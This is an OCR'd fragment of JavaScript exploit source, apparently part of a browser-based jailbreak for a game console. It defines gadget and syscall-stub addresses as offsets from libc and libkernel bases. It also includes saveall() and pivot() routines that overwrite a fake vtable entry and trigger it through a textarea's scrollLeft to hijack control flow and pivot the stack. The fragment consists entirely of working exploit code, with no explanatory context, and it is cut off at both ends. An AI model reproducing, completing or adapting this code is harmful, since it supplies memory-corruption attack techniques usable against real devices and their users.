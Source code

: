 var pivot_addr = libc_base + 0x327d2;
var infloop_addr = libc_base + 0x447a0;
var jop_frame_addr = libc_base + 0x715d0;
var get_errno_addr_addr = libkernel_base + 0x9ff0;
var pthread_create_addr = libkernel_base + 0xf980;
function saveall() {
  var ans = malloc(0x800);
  var bak = read_ptr_at(fake_vtable + 0x1d8);
  write_ptr_at(fake_vtable + 0x1d8, saveall_addr);
  tarea.scrollLeft = 0;
  write_mem(ans, read_mem(fake_vt_ptr, 0x400));
  write_mem(fake_vt_ptr, read_mem(fake_vt_ptr_bak, 0x400));
  var bak = read_ptr_at(fake_vtable + 0x1d8);
  write_ptr_at(fake_vtable + 0x1d8, saveall_addr);
  write_ptr_at(fake_vt_ptr + 0x38, 0x1234);
  tarea.scrollLeft = 0;
  write_mem(ans + 0x400, read_mem(fake_vt_ptr, 0x400));
  write_mem(fake_vt_ptr, read_mem(fake_vt_ptr_bak, 0x400));
  return ans;
}
function pivot(buf) {
  var ans = malloc(0x400);
  var bak = read_ptr_at(fake_vtable + 0x1d8);
  write_ptr_at(fake_vtable + 0x1d8, saveall_addr);
  tarea.scrollLeft = 0;
  write_mem(ans, read_mem(fake_vt_ptr, 0x400));
  write_mem(fake_vt_ptr, read_mem(fake_vt_ptr_bak, 0x400));
  var bak = read_ptr_at(fake_vtable + 0x1d8);
  write_ptr_at(fake_vtable + 0x1d8, pivot_addr);
  write_ptr_at(fake_vt_ptr + 0x38, buf);
  write_ptr_at(ans + 0x38, read_ptr_at(ans + 0x38) - 16);
  write_ptr_at(buf, ans);
  tarea.scrollLeft = 0;
  write_mem(fake_vt_ptr, read_mem(fake_vt_ptr_bak, 0x400));
}
var sys_670_addr = libkernel_base + 0x1efc0;
var sys_192_addr = libkernel_base + 0x1efe0;
var sys_586_addr = libkernel_base + 0x1f000;
var sys_545_addr = libkernel_base + 0x1f020;
var sys_362_addr = libkernel_base + 0x1f040;
var sys_363_addr = libkernel_base + 0x1f060;
var sys_206_addr = libkernel_base + 0x1f080;
var sys_5_addr = libkernel_base + 0x1f0a0;
var sys_432_addr = libkernel_base + 0x1f0c0;
var sys_136_addr = libkernel_base + 0x1f0e0;
var sys_42_addr = libkernel_base + 0x1f100;
var sys_188_addr = libkernel_base + 0x1f130;
var sys_4_addr = libkernel_base + 0x1f150;
var sys_546_addr = libkernel_base + 0x1f170;
var sys_236_addr = libkernel_base + 0x1f190;
var sys_127_addr = libkernel_base + 0x1f1b0;
var sys_533_addr = libkernel_base + 0x1f1d0;
var sys_429_addr = libkernel_base + 0x1f1f0;
var sys_658_addr = libkernel_base + 0x1f210;
var sys_345_addr = libkernel_base + 0x1f230;
var sys_623_addr = libkernel_base + 0x1f250;
var sys_329_addr = libkernel_base + 0x1f270;
var sys_551_addr = libkernel_base + 0x1f290;
var sys_593_addr = libkernel_base + 0x1f2b0;
var sys_555_addr = libkernel_base + 0x1f2e0;
var sys_673_addr = libkernel_base + 0x1f300;
var sys_253_addr = libkernel_base + 0x1f320;
var sys_272_addr = libkernel_base + 0x1f340;
var sys_466_addr = libkernel_base + 0x1f360;